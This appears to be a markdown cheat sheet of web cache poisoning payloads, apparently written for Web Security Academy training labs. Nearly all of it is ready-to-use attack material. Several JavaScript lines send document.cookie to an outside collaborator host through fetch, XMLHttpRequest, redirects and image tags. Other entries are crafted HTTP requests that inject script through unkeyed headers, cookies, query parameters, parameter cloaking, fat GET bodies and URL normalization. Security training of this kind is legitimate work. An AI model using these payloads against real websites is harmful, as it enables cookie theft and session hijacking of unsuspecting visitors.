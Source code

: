 # Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:
```
  go to the **exploit server** ->

  in **"file"**: /recources/js/tracking.js
  in **"body"**:
  document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```

  or
  
  `fetch('http://burp.oastify.com?c=' + document.cookie, { mode: 'no-cors' });`
  
  or
  
  `location.href = 'http://burp.oastify.com?c=' + document.cookie;`
  
  or
  
```
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://burp.oastify.com?c=' + document.cookie, true);
  xhr.send();
```
![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``
## Web cache poisoning with an unkeyed cookie:
``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

``
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
``
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.
``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``
## Web cache poisoning via an unkeyed query string
``
/?search=evil'/><script>alert(1)</script>
Origin:x
``
## Web cache poisoning via an unkeyed query parameter
``
GET /?utm_content=123'/><script>alert(1)</script>
``
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``
## Web cache poisoning via a fat GET request
``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``
## URL normalization
``
/random"><script>alert(1)</script> 
``
or

``
GET /random</p><script>alert(1)</script><p>foo
``

Cache this path and then deliver URL to the victim
